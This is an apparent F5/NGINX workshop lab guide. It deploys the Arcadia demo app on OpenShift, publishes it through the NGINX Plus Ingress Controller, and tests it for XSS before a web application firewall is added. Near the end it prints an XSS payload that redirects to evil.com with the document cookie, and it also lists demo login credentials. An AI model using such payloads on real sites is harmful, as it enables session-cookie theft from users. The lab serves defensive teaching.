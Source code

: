 == Access Arcadia App without NGINX App Protect to establish a baseline

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

[source,sh,role=execute]
----
oc delete virtualserver arcadia
oc delete -f arcadia.yml 
----


== Deploy the Arcadia Application into Kubernetes

[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our OpenShift cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,sh,role=execute]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,sh,role=execute]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,sh,role=execute]
----
oc get svc
----

This will show us the services running in our Kubernetes cluster,
including those related to the Arcadia application.

[source,texinfo,subs="attributes"]
----
$ oc get svc
NAME         TYPE           CLUSTER-IP      EXTERNAL-IP                            PORT(S)        AGE
app2         NodePort       172.30.134.98   <none>                                 80:30362/TCP   3m13s
app3         NodePort       172.30.45.51    <none>                                 80:31662/TCP   3m13s
backend      NodePort       172.30.83.103   <none>                                 80:31584/TCP   3m13s
kubernetes   ClusterIP      172.30.0.1      <none>                                 443/TCP        3h41m
main         NodePort       172.30.25.227   <none>                                 80:30511/TCP   3m13s
openshift    ExternalName   <none>          kubernetes.default.svc.cluster.local   <none>         3h31m
----

== Export the NGINX Ingress Controller services

Interacting with the NGINX Ingress Controller is  easier if we expoort the service External IPs into system variables. 
This allows for templating to take place when we expose our applications.

Paste the below into the terminal and press enter:

[source,sh,role=execute]
----
export nginx_ingress=$(oc get svc my-nginx-ingress-controller -n nginx-ingress --no-headers | tr -s " " | cut -d" " -f4)' >> ~/.bashrc && source ~/.bashrc
----

You can check the domain name with the `echo` command

[source,sh,role=execute]
----
 echo "$nginx_ingress/"
----



== Publish Arcadia app with NGINX Plus Ingress Controller

Now that we have our Arcadia application deployed in our OpenShift
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

[source,sh,role=execute]
----
cat << EOF | envsubst > arcadia-virtualserver.yml
apiVersion: k8s.nginx.org/v1
kind: VirtualServer
metadata:
  name: arcadia
spec:
  host: $nginx_ingress
  upstreams:
  - name: main
    service: main
    port: 80
  - name: app2
    service: app2
    port: 80
  - name: app3
    service: app3
    port: 80
  routes:
  - path: /
    action:
      pass: main
  - path: /api
    action:
      proxy:
        upstream: app2
  - path: /app3
    action:
      proxy:
        upstream: app3
EOF
----

Use the `cat` command to view the contents of the file and verify the `host` line matches your nginx_ingress external domain name

[source,sh,role=execute]
----
cat arcadia-virtualserver.yml
----



We can know go to the URL and  access our Arcadia application by opening it in a web browser.

[source,sh,role=execute]
----
 echo "http://$nginx_ingress/"
----


You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with the Arcadia
application that consists of four microservices:

image:image10.png[image]

Congratulations!

You have now successfully deployed the application in the K8s cluster and
published it externally using the NGINX Plus Ingress controller.

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch the Firefox browser and append
`?a=<script>` to the end of the application URL. If the request is
allowed, then our application is vulnerable to XSS attacks.

image:image11.png[image]

We can further test this by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, which will attempt to steal our document cookie.
If this request is also allowed, then a bad actor could potentially
steal sensitive information from our application user.

image:image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.
